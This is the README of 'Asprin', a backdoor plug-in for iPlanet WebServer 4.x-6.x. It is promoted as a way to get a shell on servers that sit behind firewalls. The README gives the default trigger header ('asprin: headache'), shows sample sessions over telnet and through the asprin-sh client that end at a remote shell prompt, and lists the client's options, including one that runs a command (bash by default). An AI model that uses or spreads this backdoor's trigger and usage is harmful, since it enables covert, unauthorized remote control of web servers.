   __ _ ___ _ __  _ __(_)_ __  
 / _` / __| '_ \| '__| | '_ \ 
| (_| \__ \ |_) | |  | | | | |
 \__,_|___/ .__/|_|  |_|_| |_|
          |_|                 
               by sage@t0s.org

README
------
  Asprin is a SAF for Iplanet WebServer 4.x-6.x and is created to 
  be a great backdoor, specialy when the Iplanet webserver is behind 
  a firewall. Previously to give you a shell you need to put 
  a speciall header name and its value. By default the header name is
  "asprin" and his value is "headache".


  Since version 2.0 of asprin project, to have a best tty support,
  a new program has been included in the project, this is asprin-sh.
  But if you want you can use telnet client to gain a shell how you
  can see in this example.


  ---------------------
  # telnet localhost 80
  Trying 127.0.0.1...
  Connected to ptt0.
  Escape character is '^]'.
  GET / HTTP/1.0
  asprin: headache;1;vt100;80;25;

  Asprin v.2.0.0
  test:/$
  ---------------------


  asprin-sh have best tty support and it's more easy to use
  than telnet. See and example.

  ---------------------
  # asprin-sh localhost
  Asprin Shell Client v.2.0.0
  [*] Connecting to localhost
  [!] Using default header name: asprin
  [!] Using default header value: headache
  [!] Using default port: 80
  [*] Term: linux
  [*] Columns: 80,Rows: 60



  Asprin v.2.0.0
  test:/$
  ---------------------
  
  asprin-sh allow you to specify the next options:

  -p <port> : Port to connect.
  -n <name>: Header name. [asprin]
  -v <value>: Header value. [headache]
  -c <command>: Command to execute. [bash]
  -s: Use SSL (not implemented yet!)
  -h: Show this help.


  Find out how to install and configure Asprin by reading the 
  INSTALL document.

  Study the COPYING file for distribution terms and similar.

CONTACT
-------

  If you have problems, questions, ideas or suggestions, please contact us
  sending a email to sage@t0s.org or staff@t0s.org.

WEB SITE
--------

  Visit the t0s web site for the latest news:

    http://www.t0s.org/

THANKS
------

  Special thanks to jfs and DarkRaver for their help and contributions
  that have done this project a reality.


